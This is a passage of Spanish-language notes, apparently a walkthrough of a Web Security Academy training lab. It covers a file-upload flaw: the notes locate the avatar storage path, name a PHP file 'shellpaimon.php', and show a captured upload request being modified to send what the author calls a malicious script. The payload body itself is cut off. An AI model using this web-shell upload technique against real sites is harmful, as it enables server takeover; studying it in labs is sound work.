 ```python
SsIo5Fx3ho5EaMuJDTVqU0oLQmxEm1ym
------WebKitFormBoundaryst7AA5drUvw3CJ07--






AVERIGUAMOS LA RUTA DONDE SE DEPOSITAN LOS ARCHIVOS DE AVATAR SUBIDOS:



/files/avatars/shellpaimon.php


avatars/_34148858-9c47-4a36-aeb6-893736f54ce5.jpeg


https://0a480099031b0a4086dfdfbf00f000ef.web-security-academy.net/my-account/avatar

BINGO CORROBAROMOS LA RUTA COMPLETA AL AVATAR SUBIDO Y ES ESTA, O TIENE ESTE FORMATO:

https://0a480099031b0a4086dfdfbf00f000ef.web-security-academy.net/files/avatars/_34148858-9c47-4a36-aeb6-893736f54ce5.jpeg






VAMOS A MODIFICAR LA REQUEST PARA TRATAR DE MANDAR NUESTRO SCRIPT MALICIOSO:



POST /my-account/avatar HTTP/2
Host: 0a480099031b0a4086dfdfbf00f000ef.web-security-academy.net
Cookie: session=uhnJSlUHYWt4hbcGZI22owgj9usoXTRi
Content-Length: 192070
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://0a480099031b0a4086dfdfbf00f000ef.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryst7AA5drUvw3CJ07
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a480099031b0a4086dfdfbf00f000ef.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9,en;q=0.8

------WebKitFormBoundaryst7AA5drUvw3CJ07
Content-Disposition: form-data; name="avatar"; filename="_aad1d44b-e0a7-4537-9793-a891181bba8b.jpeg"
Content-Type: image/jpeg


```